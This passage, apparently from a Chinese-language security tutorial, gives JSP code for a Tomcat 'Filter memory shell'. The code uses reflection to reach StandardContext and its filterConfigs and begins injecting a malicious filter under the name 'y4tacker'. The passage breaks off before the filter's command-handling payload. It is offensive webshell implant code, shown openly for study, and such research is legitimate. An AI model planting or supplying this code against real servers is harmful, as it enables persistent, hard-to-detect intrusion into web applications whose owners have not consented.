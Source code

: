 ![filter_shellxx](./main.assets/filter_shell9.png)

## Filter内存马代码

```jsp
<%--
  Created by IntelliJ IDEA.
  User: 15137
  Date: 2024/11/29
  Time: 14:33
  To change this template use File | Settings | File Templates.
--%>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "y4tacker";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
```